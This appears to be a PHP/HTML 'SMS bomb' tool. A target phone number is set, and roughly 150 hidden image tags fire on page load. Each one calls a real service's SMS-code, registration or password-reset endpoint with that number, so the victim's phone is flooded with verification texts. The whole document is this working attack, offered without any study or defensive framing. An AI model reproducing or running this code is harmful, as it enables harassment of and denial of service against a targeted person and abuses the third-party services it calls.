 SMS_BOMB
========

短信轰炸API

<?php
$tel_no=__PhoneNumber__;
?>
<pre>
<div style='display:none'>
<img src='http://member.1688.com//member/ajax/send_identity_code_by_mobile.do?callback=jQuery172007067019236274064_1376100939244&mobile=<?php echo $tel_no;?>&area=86&isBizMobile=true' alt=''/>
<img src='https://affiliate-program.amazon.com/gp/associates/apply/assoc-ivs.html?phoneNumber=%2B86<?php echo $tel_no;?>&operation=start&ts=1376044348191' alt=''/>
<img src='http://authleqr.sdo.com/lars/send-login-validate-code.jsaonp?callback=jQuery16206594030656120524_1341237419373&userId=<?php echo $tel_no;?>' alt=''/>
<img src='http://member.tiancity.com/handler/GetPhoneRegAuthCodeHandler.ashx?a=135&userid=<?php echo $tel_no;?>' alt=''/>
<img src='https://affiliate-program.amazon.com/gp/associates/apply/assoc-ivs.html?phoneNumber=%2B86<?php echo $tel_no;?>&operation=start&ts=1376099658512' alt=''/>
<img src='http://i.360.cn/smsApi/sendsmscode?account=<?php echo $tel_no;?>&condition=2&r=0.8326570473673853&callback=QiUserJsonP1354551431282' alt=''/>
<img src='https://affiliate-program.amazon.com/gp/associates/apply/assoc-ivs.html?phoneNumber=%2B86<?php echo $tel_no;?>&operation=start&ts=137606625123' alt=''/>
<img src='http://passport.cnyw.net//ajax.php?action=getverify&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.kunlun.com/?act=ajax.registGetMobileCode&mobile=<?php echo $tel_no;?>&type=regist' alt=''/>
<img src='http://www.vko.cn/sendmobile.html?phone=<?php echo $tel_no;?>&{}&_=1355879411734' alt=''/>
<img src='http://www.66call.com/register.aspx?__EVENTTARGET=&__EVENTARGUMENT=&__LASTFOCUS=&__VIEWSTATE=%2FwEPDwUKLTYzNzEwOTYxOA9kFgJmD2QWDAIFDw8WAh4EVGV4dAULMTU5NTAxMjgwMzZkZAIHDw8WBh8ABQblj6%2FnlKgeCENzc0NsYXNzBQ5yX2NfY19yX2NoZWNrMR4EXyFTQgICZGQCDQ8PZBYCHgV2YWx1ZQUJamlhbmdsaWxpZAIPDw8WBh8ABQbpgJrov4cfAQUOcl9jX2Nfcl9jaGVjazEfAgICZGQCEQ8PZBYCHwMFCWppYW5nbGlsaWQCEw8PFgYfAAUG6YCa6L%2BHHwEFDnJfY19jX3JfY2hlY2sxHwICAmRkGAEFHl9fQ29udHJvbHNSZXF1aXJlUG9zdEJhY2tLZXlfXxYCBQxJbWFnZUJ1dHRvbjEFDEltYWdlQnV0dG9uMoC6NmiwUtO9MaSDo%2BblDqWjloj5&txtact=<?php echo $tel_no;?>&hidfoc=&hidisOk=1&txtpwd=jianglili&txtrepwd=jianglili&txtcode=&ImageButton1.x=59&ImageButton1.y=11' alt=''/>
<img src='https://affiliate-program.amazon.com/gp/associates/apply/assoc-ivs.html?phoneNumber=%2B86<?php echo $tel_no;?>&operation=start&ts=<?php echo $tel_no;?>' alt=''/>
<img src='http://register.sdo.com/gaea/SendPhoneMsg.ashx?page=REG&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.easou.com/sms.e?name=%e8%93%9d%e8%93%9d%e5%a4%a9%e7%a9%ba&mobile=<?php echo $tel_no;?>&action=sms&usid=9&' alt=''/>
<img src='http://www.gewara.com/ajax/mobile/register.xhtml?mobile=<?php echo $tel_no;?>&captchaId=&captcha=' alt=''/>
<img src='http://w.sohu.com/t2/tologin.do?mnd=<?php echo $tel_no;?>&qr=1' alt=''/>
<img src='http://www.66call.com/register.aspx?__EVENTTARGET=&__EVENTARGUMENT=&__LASTFOCUS=&__VIEWSTATE=%2FwEPDwUKLTYzNzEwOTYxOA9kFgJmD2QWDAIFDw8WAh4EVGV4dAULMTU5NTAxMjgwMzZkZAIHDw8WBh8ABQblj6%2FnlKgeCENzc0NsYXNzBQ5yX2NfY19yX2NoZWNrMR4EXyFTQgICZGQCDQ8PZBYCHgV2YWx1ZQUJamlhbmdsaWxpZAIPDw8WBh8ABQbpgJrov4cfAQUOcl9jX2Nfcl9jaGVjazEfAgICZGQCEQ8PZBYCHwMFCWppYW5nbGlsaWQCEw8PFgYfAAUG6YCa6L%2BHHwEFDnJfY19jX3JfY2hlY2sxHwICAmRkGAEFHl9fQ29udHJvbHNSZXF1aXJlUG9zdEJhY2tLZXlfXxYCBQxJbWFnZUJ1dHRvbjEFDEltYWdlQnV0dG9uMoC6NmiwUtO9MaSDo%2BblDqWjloj5&txtact=<?php echo $tel_no;?>&hidfoc=&hidisOk=1&txtpwd=zhasini&txtrepwd=zhasini&txtcode=&ImageButton1.x=59&ImageButton1.y=11' alt=''/>
<img src='http://wap.dm.10086.cn/X/o/3455101/447117/mva0?a=/enduser/querySMSValiCodeByWap20.action&templateDir=template&theme=simple&name=querySMSValiCode&id=querySMSValiCode&downId=&operateType=1&isPass=true&user.accountName=<?php echo $tel_no;?>&Submit=%E4%B8%8B%E4%B8%80%E6%AD%A5' alt=''/>
<img src='http://a.10086.cn/pams2/s/s.do?c=204&j=l&lpt=1&mobile=<?php echo $tel_no;?>&p=72' alt=''/>
<img src='http://read.10086.cn/www/firstpage/getValidateCode.action?phone=<?php echo $tel_no;?>&sf=0' alt=''/>
<img src='http://read.10086.cn/www/NiceNameAjax?msisdn=<?php echo $tel_no;?>&e_cm=cmmobile' alt=''/>
<img src='https://cmpay.10086.cn/service/send_chk_no.xhtml?REG_MBL_NO=<?php echo $tel_no;?>&SMS_CD=URM001&typ=Y&r=0.9636801626045905' alt=''/>
<img src='https://feixin.10086.cn/account/RegisterLv3Ajax?stype=m&stext=<?php echo $tel_no;?>' alt=''/>
<img src='http://my.feixin.10086.cn/password/findpasswordvalidate?type=0&account=<?php echo $tel_no;?>' alt=''/>
<img src='http://218.206.191.106/idm/usermgr/usernameCheck?mobilePhone=<?php echo $tel_no;?>' alt=''/>
<img src='http://go.10086.cn/index.do?method=doReg&mobile=<?php echo $tel_no;?>&source=reg' alt=''/>
<img src='http://www.keepc.com/registerForMobileForCode.act?mobileNo=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.cmread.com/sso/oauth2/msisdnRegister?e_l=1&amp;f=7718&amp;pg=221&msisdn=<?php echo $tel_no;?>&passwd=1415926' alt=''/>
<img src='https://passport.jd.com/emReg/isMobileEngaged?mobile=<?php echo $tel_no;?>&r=0.08241349037594953' alt=''/>
<img src='http://shoujibao.net/pams2/m/s.do?j=l&c=31879&p=73&mobile=<?php echo $tel_no;?>&password=1415926' alt=''/>
<img src='http://club.service.autohome.com.cn/Ashx/CreateMobileCode.ashx?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.huggieshappyclub.com/Handler/Vcode.ashx?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.buidq.com/wap/webcallService.aspx?tel=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.uwewe.com/get/IsUser.aspx?phone=<?php echo $tel_no;?>&quhao=86' alt=''/>
<img src='http://www.uwewe.com/get/SendMessage.aspx?phone=<?php echo $tel_no;?>&ccode=86&type=1' alt=''/>
<img src='http://www.66call.com/forgetpwd.aspx?ScriptManager1=UpdatePanel1|ImageButton2&__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwULLTExMjY2ODE5MTgPFgYeCFRpbWVTcGFuBqpmMwD38M%2BIHgRjb2RlBQQ0MjY1HgRhY2N0BQsxNTgzODgwMjA0MmQYAQUeX19Db250cm9sc1JlcXVpcmVQb3N0QmFja0tleV9fFgMFDEltYWdlQnV0dG9uMgUMSW1hZ2VCdXR0b24xBQxJbWFnZUJ1dHRvbjPdI0AXCiz2XIYks0CPZpmkSSEMDg%3D%3D&txtacct=<?php echo $tel_no;?>&txtcode=7426&txtpwd=&txtrepwd=&ImageButton2.x=76&ImageButton2.y=18' alt=''/>
<img src='http://www.wcall.net/ajax/send_captcha.jsp?mobile=86<?php echo $tel_no;?>' alt=''/>
<img src='http://www.uwewe.com/wap/reg.aspx?__VIEWSTATE=%2FwEPDwUKLTg3MDQ4MjcyNGRkTWAEkK5GOtWg8l1At7LuQLJsrtk%3D&__EVENTVALIDATION=%2FwEWBwLf79jTDQL7h7XWDwKd%2B7q4BwLinreAAgLChPzDDQK7q7GGCAKM54rGBiIS9Dt7i1j1h%2BDtH9EcyHIWJVZf&txtacct=<?php echo $tel_no;?>&txtpwd=&txtRepwd=&txtCode=&Button2=%E8%AF%AD%E9%9F%B3%E8%8E%B7%E5%8F%96%E9%AA%8C%E8%AF%81%E7%A0%81' alt=''/><img src='http://www.gewara.com/ajax/mobile/register.xhtml?mobile=<?php echo $tel_no;?>&captchaId=&captcha=' alt=''/>
<img src='http://www.gewara.com/checkMember.xhtml?tag=mobile&itemvalue=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.dianping.com/ajax/json/account/reg/mobile/send?m=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.ushi.com/openRegU!checkNumber.jhtml?basicProfile.mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.efala.net/newfindpwbysms.flow?byname=<?php echo $tel_no;?>' alt=''/>
<img src='http://zj.189.cn/zjpr/member/authentication/sendValidatePhone.html?phone=<?php echo $tel_no;?>' alt=''/>
<img src='http://weibo.com/signup/v5/formcheck?type=mobile&value=<?php echo $tel_no;?>&__rnd=1363496469546' alt=''/>
<img src='http://api.open.uc.cn/cas/register/mobi/resendVCode?uc_param_str=einisivelafrpf&client_id=20033&from=cas&mobi=<?php echo $tel_no;?>' alt=''/>
<img src='http://ptlogin.4399.com/ptlogin/sendRegPhoneCode.do?phone=<?php echo $tel_no;?>&appId=www_home&v=1&v=1' alt=''/>
<img src='http://i.youku.com/u/bindMobile?__rt=1&__ro=&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='https://safe.renren.com/actions/changesafemobile/sendmobilecaptcha?ajax-type=json&token=1ZhR7iv65SgaNXliuA7mujgTO3s3k1CL&mobile=<?php echo $tel_no;?>&requestToken=496404876&_rtk=e95787e6' alt=''/>
<img src='http://club.service.autohome.com.cn/Ashx/CreateMobileCode.ashx?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://service.zol.com.cn/user/ajax/sendMsgCode.php?phone=<?php echo $tel_no;?>' alt=''/>
<img src='https://login.vancl.com/login/BeginRegister.ashx?action=sendmobilecode&key=<?php echo $tel_no;?>&validatecode=&_=1363498730859' alt=''/>
<img src='http://passport.eastmoney.com/chkphone.aspx?flag=check&param=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.eastmoney.com/chkphone.aspx?flag=resend&param=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.cntv.cn/mobileRegister.do?msisdn=<?php echo $tel_no;?>&verfiCodeType=1&method=getRequestVerifiCode' alt=''/>
<img src='http://register.zhenai.com/register/validateMobile.jsps?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://reg.jiayuan.com/libs/xajax/reguser.server.php?processSendOrUpdateMessage&xajax=processSendOrUpdateMessage&xajaxargs%5B%5D=%3Cxjxquery%3E%3Cq%3Emobile%3Dd$%3C%2Fq%3E%3C%2Fxjxquery%3E&xajaxargs%5B%5D=mobile&xajaxr=1363500615734' alt=''/>
<img src='https://passport.jd.com/emReg/sendMobileCode?mobile=<?php echo $tel_no;?>&r=0.9010949897739119' alt=''/>
<img src='https://member.suning.com/emall/SNCellPhoneRegisterCmd?actionType=reSendValCode&logonId=<?php echo $tel_no;?>&URL=SNUserRegisterComfirmView&_=1363500974671' alt=''/>
<img src='http://account.iqiyi.com/security/secret/mobile/adm.action?time=1363501090218&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.skywldh.com/registerForMobileForCode.act?mobileNo=<?php echo $tel_no;?>&smSecurityCode=' alt=''/>
<img src='http://wap.skywldh.com/index.php?register&flag=flag&phone=<?php echo $tel_no;?>&mss=on' alt=''/>
<img src='http://zg51.net/web/customer/forgetPwd_up.asp?customermobile=<?php echo $tel_no;?>&verify=01f735f97f1af959&checkcodeflag=1' alt=''/>
<img src='http://www.qqvoice.com/free/getExpCode.do?_isAjaxRequest=true&phonemail=<?php echo $tel_no;?>&type=1&randvalue=' alt=''/>
<img src='http://www.feiin.com/findAccountInfoByAccount.act?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.feiin.cn/index.php?register?phone=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.feiin.cn/bindMobileCode.act?account=<?php echo $tel_no;?>&quhao=0086' alt=''/>
<img src='http://www.139talk.com/user/regnum.html?phone=<?php echo $tel_no;?>&type=1&key=ofoedsv0oeg6aari1m3ig0nsc5' alt=''/>
<img src='http://www.139talk.com/invite/invitesms.html?phone=<?php echo $tel_no;?>&key=ofoedsv0oeg6aari1m3ig0nsc5' alt=''/>
<img src='http://www.139talk.com/invite/regnum.html?phone=<?php echo $tel_no;?>&type=1&key=ofoedsv0oeg6aari1m3ig0nsc5' alt=''/>
<img src='http://www.139talk.com/invite/register.html?p=cGhvbmV8MTU4Mzg4MDIwNDJ8Y2hrY29kZXw4OTczfGRhdGV8MjAxMy0wMy0xNw==' alt=''/>
<img src='http://www.139talk.com/download/smsdownload.html?popPhone=<?php echo $tel_no;?>&phoneType=Iphone&popKey=ofoedsv0oeg6aari1m3ig0nsc5' alt=''/>
<img src='http://www.159talk.com/user/regnum.html?phone=<?php echo $tel_no;?>&type=1&key=h5u9albk8oveqm17rfo6kvo226' alt=''/>
<img src='http://my.tv.sohu.com/user/reg/getmstatus.do?passport=<?php echo $tel_no;?>' alt=''/>
<img src='http://sso.letv.com/user/mobileRegCode/mobile/<?php echo $tel_no;?>/mobilecodeletvid/k961601363512388' alt=''/>
<img src='http://register.sdo.com/gaea/SendPhoneMsg.ashx?page=REG&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://download.feixin.10086.cn/download/downloadFLToMobile.action?id=50&no=<?php echo $tel_no;?>&isCheckCode=1' alt=''/>
<img src='http://my.feixin.10086.cn/password/sendfindpasswordsms?MobileNo=<?php echo $tel_no;?>' alt=''/>
<img src='http://f.10086.cn/im5/register/checkMobile.action?mobileNo=<?php echo $tel_no;?>' alt=''/>
<img src='http://zc.qq.com/cgi-bin/bd/send_sms?acc=<?php echo $tel_no;?>&bkn=1656136920&v=0.6187287989762199' alt=''/>
<img src='http://weibo.com/signup/v5/formcheck?type=sendsms&value=<?php echo $tel_no;?>&__rnd=1364610012046http://hm.baidu.com/hm.gif?cc=1&ck=1&cl=16-bit&ds=1280x800&ep=%E8%8E%B7%E5%8F%96%E9%AA%8C%E8%AF%81%E7%A0%81*%E7%82%B9%E5%87%BB&et=4&fl=11.6&ja=1&ln=zh-cn&lo=0&nv=1&rnd=2125197633&si=4cd143d67831005438c65f586314c582&st=3&su=http://club.autohome.com.cn%2Fbbs%2Fthread-c-148-2031217-1.html&v=1.0.40&lv=1&api=8_0&tt=%E7%94%A8%E6%88%B7%E6%B3%A8%E5%86%8C_%E6%B1%BD%E8%BD%A6%E4%B9%8B%E5%AE%B6' alt=''/>
<img src='https://www.qianwang365.com/uc/ajax/obtainSecurityCode4Regist.html?username=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.efala.net/getcode.flow?phone=<?php echo $tel_no;?>&cardno=&code=&' alt=''/>
<img src='http://passport.wanmei.com/NoteAction.do?method=sendRegCode&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://biz.b2b.cn/member/SendCode.ashx?temptime=1365067755281&m=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.kunlun.com/index.php?act=ajax.checkUsername&user_name=<?php echo $tel_no;?>' alt=''/>
<img src='http://reg.email.163.com/unireg/call.do?cmd=added.mobileverify.sendAcode&mobile=<?php echo $tel_no;?>&uid=<?php echo $tel_no;?>%40163.com&mark=mobile_start' alt=''/>
<img src='http://passport.eastmoney.com/chkphone.aspx?flag=resend&param=<?php echo $tel_no;?>' alt=''/>
<img src='http://user.syyx.com/ajax/users/checkusername.aspx?u=<?php echo $tel_no;?>&r=0.42031912299903756' alt=''/>
<img src='http://www.keepc.com/findAccountInfoByAccount.act?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://service.zol.com.cn/user/ajax/sendMsgCode.php?phone=<?php echo $tel_no;?>' alt=''/>
<img src='http://gwpassport2.woniu.com/v2/checkusername?jsoncallback=jQuery172013263149083391296_1365068016801&username=<?php echo $tel_no;?>&_=1365068030671' alt=''/>
<img src='http://passport.upaidui.com/mobiles/send_validation_code?mobile_number=<?php echo $tel_no;?>' alt=''/>
<img src='http://user.51wan.com/reg_index_check_0.html?type=username&is=mobile&username=<?php echo $tel_no;?>' alt=''/>
<img src='http://interface.game.renren.com/ActivityCenter/?catalog=plugins&gameid=all&aname=reg&method=reg.subUserInfo&mobile=<?php echo $tel_no;?>&callback=jQuery17204292543791520399_1365068164751&_=1365068180406' alt=''/>
<img src='http://my.xoyo.com/register/NewIsExist/?uid=<?php echo $tel_no;?>' alt=''/>
<img src='http://member.tiancity.com/handler/GetPhoneRegAuthCodeHandler.ashx?a=0.016777698590329404&userid=<?php echo $tel_no;?>' alt=''/>
<img src='http://member.changyou.com/register/checkPhoneIsUsed.do?securityPhone=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.game5.com/member/sendRegisterVerifyCode?reg_mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.kongzhong.com/acc.do?m=sendPhoneVcodeFast&callback=jQuery17200752385214847075_1364445730228&phone=<?php echo $tel_no;?>&smsvcode=%E8%BE%93%E5%85%A5%E6%89%8B%E6%9C%BA%E8%8E%B7%E5%8F%96%E7%9A%84%E9%AA%8C%E8%AF%81%E7%A0%81&_=1364445764320' alt=''/>
<img src='http://www.pceggs.com/myaccount/mobile_ajax.aspx?refresh=0&i_mobileNo=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.9dapai.com/SMSAuthentication/SMSAuthenticationPage.aspx/btnGenerateCheckCode_Click?(Content)=%7Bcellnum%3A'<?php echo $tel_no;?>'%7D' alt=''/>
<img src='http://www.veryzhun.com/ajax/register.asp?mobile=<?php echo $tel_no;?>&areacode=86' alt=''/>
<img src='http://wap.callda.com/register_2.jsp?phoneNumber=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.200call.com/index.php?action=vphone?uphone=<?php echo $tel_no;?>' alt=''/>
<img src='http://wap.12580call.cn/index.php?register&phone=<?php echo $tel_no;?>' alt=''/>
<img src='http://w.yunpan.360.cn/intf.php?method=Sms.issue&qid=177256015&devtype=box&v=1.9.2.1245&devid=5b5b55bfc9f1f3113963b1f1350adc65&devname=&rtick=6969759&sign=aa8d029e8036f3f9d555956388dc4c57&ofmt=xml&pid=home&mobile=<?php echo $tel_no;?>&contype=mdu&token=3708649921.6.95535003.177256015.1366401362' alt=''/>
<img src='http://member.tiancity.com/handler/GetPhoneRegAuthCodeHandler.ashx?a=0.6334787302703851&userid=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.eastmoney.com/chkphone.aspx?flag=resend&param=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.17u.cn/Member/RegisterHandler.ashx?action=phone&phone=<?php echo $tel_no;?>&iid=0.6011805873638694' alt=''/>
<img src='http://3g.163.com/t/signup.do?mobile=<?php echo $tel_no;?>&sub=%E8%8E%B7%E5%8F%96%E5%AF%86%E7%A0%81%E7%9F%AD%E4%BF%' alt=''/>
<img src='http://m.mail.163.com/reg.s?regtype=mobile&method=registerMobile&mobile_num=<?php echo $tel_no;?>&password=testtest&password2=testtest&action=%E6%8F%90%E4%BA%A4%E6%B3%A8%E5%86%8C%E4%BF%A1%E6%81%AF=400' alt=''/>
<img src='http://account.jzyx.com/common/send-sms.html?tel=<?php echo $tel_no;?>' alt=''/>
<img src='http://t.sdo.com/home/SendSms?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://txz.sdo.com/common/msgsend/?m=<?php echo $tel_no;?>&t=2&method=SendAPPDownLoadSMSCallback&fromid=weblogin&r=0.9407026621045355' alt=''/>
<img src='https://mcas.sdo.com/authen/checkAccountType.jsonp?callback=checkAccountType_JSONPMethod&inputUserId=<?php echo $tel_no;?>' alt=''/>
<img src='http://authleqr.sdo.com/lars/check-account-types.jsonp?callback=jQuery16202903677772887056_1353757072377&userId=<?php echo $tel_no;?>&_=1353757193062' alt=''/>
<img src='https://reg.95538.cn/userreg/AjaxHandler.ashx?method=getPhoneCode?mobilePhone=<?php echo $tel_no;?>&type=0' alt=''/>
<img src='http://u.baidu.com/?module=default&controller=Reg&action=sendSMS&b1350745948890=1&mobile=<?php echo $tel_no;?>&appid=3&ucname=huisexinxi' alt=''/>
<img src='http://as.baidu.com/a/msg?act=sendtomobile&f=topic_3001_2_0&mobile=<?php echo $tel_no;?>&docid=1439803&ctime=1353852949890' alt=''/>
<img src='http://as.baidu.com/a/msg?act=sendtomobile&f=web_alad_6%40next%40software_1003_6&mobile=<?php echo $tel_no;?>&docid=1346020&ctime=1350747592671' alt=''/>
<img src='http://api.pengyou.com/json.php?mod=mobilebind&act=sendsms&mobile=<?php echo $tel_no;?>&g_tk=null' alt=''/>
<img src='http://www.maiduo.com/handler/Register/Register.ashx?act=check&mobile=<?php echo $tel_no;?>&checkCode=undefined' alt=''/>
<img src='http://www.sinosig.com/auth/regist_resetMsg.action?sso_userName=<?php echo $tel_no;?>&isAjaxSubmit=true' alt=''/>
<img src='http://www.pubyun.com/accounts/signup_vcode/4449056/?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://dealer.autohome.com.cn/Handler/SendMessage.ashx?action=sendcode&mob=<?php echo $tel_no;?>' alt=''/>
<img src='http://yuyue.shdc.org.cn/User/ajaxSendConfirmCode.aspx?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://reg.ztgame.com/registe/mobilePhoneRegister?type=isBindPhoneNum&phoneNum=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.baixing.com/ajax/auth/sendCode/?type=resetPassword&mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://mail.sina.com.cn/cgi-bin/phonecode.php?phonenumber=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.q.com.cn/register/index/ajaxcheckmobile/?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://yun.baidu.com/account/v1/api/sendacodenormal?dest=<?php echo $tel_no;?>' alt=''/>
<img src='https://reg.passport.the9.com/api/chk_loginname?loginname=<?php echo $tel_no;?>&accounttype=reg_mobile' alt=''/>
<img src='https://login.sina.com.cn/signup/check_user.php?format=json&from=mobile&name=<?php echo $tel_no;?>' alt=''/>
<img src='http://js.ac.10086.cn/jsauth/reg?method=sendVerCode&=<?php echo $tel_no;?>' alt=''/>
<img src='http://my.xoyo.com/register/isExist/0.8101254514227967?uid=<?php echo $tel_no;?>&type=mobile' alt=''/>
<img src='http://member.changyou.com/register/checkPhoneIsUsed.do?securityPhone=<?php echo $tel_no;?>' alt=''/>
<img src='https://reg.91.com/AjaxAction/AC_register.ashx?action=verifyusernameofmobile&txtUserNameOfMobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://211.136.93.21/hfwebbusi/pay/saveOrder.do?mobileId=<?php echo $tel_no;?>' alt=''/>
<img src='http://passport.wanmei.com/NoteAction.do?method=sendRegCode?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://authleqr.sdo.com/lars/check-account-types.jsonp?callback=jQuery16203658856788579764_1366925187811&userId=<?php echo $tel_no;?>&_=1366925195670' alt=''/>
<img src='http://www.guahao.com/validcode/json/mobile/<?php echo $tel_no;?>/REG_MOBILE/cebaf071614ac29f9ad6c692b474a46f?_=1366925898545' alt=''/>
<img src='http://chinatelecom.zc.qq.com/cgi-bin/send_sms?phonenum=<?php echo $tel_no;?>&stype=1' alt=''/>
<img src='http://cas.sdo.com/authen/sendPhoneCheckCode.jsonp?callback=sendPhoneCheckCode_JSONPMethod&inputUserId=<?php echo $tel_no;?>&type=3&appId=201&areaId=0&serviceUrl=' alt=''/>
<img src='http://sdo.com&productVersion=v5&frameType=3&locale=zh_CN&version=21&tag=20&authenSource=2&productId=2&_=1366924349498' alt=''/>
<img src='http://www.1732.com/public/ajax.aspx?app=resendcode&bindaccount=<?php echo $tel_no;?>' alt=''/>
<img src='http://sign.kting.cn/register/getphoneverify/phone/<?php echo $tel_no;?>' alt=''/>
<img src='http://m.xs8.cn/user/quick_signup.html?mobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://bbs.360che.com/ajax1.php?action=ds21&mobilenum=<?php echo $tel_no;?>&inajax=1&ajaxtarget=ts' alt=''/>
<img src='http://pass.ledu.com/reg/mobilecode?type=reg&mobile=<?php echo $tel_no;?>&r=0.7577109599155907' alt=''/>
<img src='http://www.52callme.com/Handler/SendVerifyCodeHandler.ashx?m=<?php echo $tel_no;?>' alt=''/>
<img src='http://sso.letv.com/user/mobileRegCode/mobile/<?php echo $tel_no;?>/mobilecodeletvid/c326961366927138' alt=''/>
<img src='http://www.sinosig.com/auth/regist_refresh.action?sso_userName=<?php echo $tel_no;?>&resetSend=1' alt=''/>
<img src='https://sn.ac.10086.cn/sendMsgRequest?mobileNumber=<?php echo $tel_no;?>' alt=''/>
<img src='https://fj.ac.10086.cn/SMSCodeSend?mobileNum=<?php echo $tel_no;?>&validCode=0000&errorurl=https://fj.ac.10086.cn/4login/errorPage.jsp&name=menhu' alt=''/>
<img src='https://fj.ac.10086.cn/SMSCodeSend?mobileNum=<?php echo $tel_no;?>&validCode=0000&errorurl=http://www.fj.10086.cn:80/service/login/send.jsp' alt=''/>
<img src='https://fj.ac.10086.cn/ssouser/sendMessage.do?mobileno=<?php echo $tel_no;?>' alt=''/>
<img src='http://www.gs.10086.cn/gs_obsh_service/actionDispatcher.do?userMobile=<?php echo $tel_no;?>' alt=''/>
<img src='https://sn.ac.10086.cn/sendMsgRequest?code=%E7%82%B9%E5%87%BB%E8%8E%B7%E5%8F%96%E9%AA%8C%E8%AF%81%E7%A0%81&mobileNumber=<?php echo $tel_no;?>' alt=''/>
<img src='https://js.ac.10086.cn/jsauth/dzqd/pagSendDypass?umobile=<?php echo $tel_no;?>' alt=''/>
<img src='http://gd.10086.cn/ngcrm/hall/SendRandomSms.action?mobile=<?php echo $tel_no;?>&isReRequest=false' alt=''/>
<img src='http://liao.189.cn/ECP-Portals/phoneDown/download.do?phone=<?php echo $tel_no;?>' alt=''/>
<img src='https://ecplive.cn/reg/servlet/ivrInvokeServlet?number=<?php echo $tel_no;?>&flagNum=3' alt=''/>
</div>
</pre>
